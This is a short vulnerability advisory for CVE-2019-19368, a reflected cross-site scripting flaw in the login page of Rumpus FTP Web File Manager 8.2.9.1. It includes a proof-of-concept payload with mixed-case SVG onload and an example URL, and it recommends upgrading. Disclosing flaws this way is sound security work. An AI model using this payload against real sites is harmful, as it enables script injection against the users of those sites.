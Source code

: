 # CVE-2019-19368

#Title: Cross Site Scripting - Reflected
#Vendor: MAXUM Development (https://maxum.com)
#Affected Product: Rumpus FTP Web File Manager
#Affected Version: 8.2.9.1

Description:
A Reflected Cross Site Scripting was discovered in the main authentication page of Rumpus FTP Web File Manager. An attacker can exploit it by sending a crafted link to end users and can execute arbitrary JavaScripts

PoC: 

Payload: ?!'><sVg/OnLoAD=alert`1`//

URL: https://127.0.0.1/Login?!'><sVg/OnLoAD=alert`1`//

Solution:
Upgrade to the latest version.
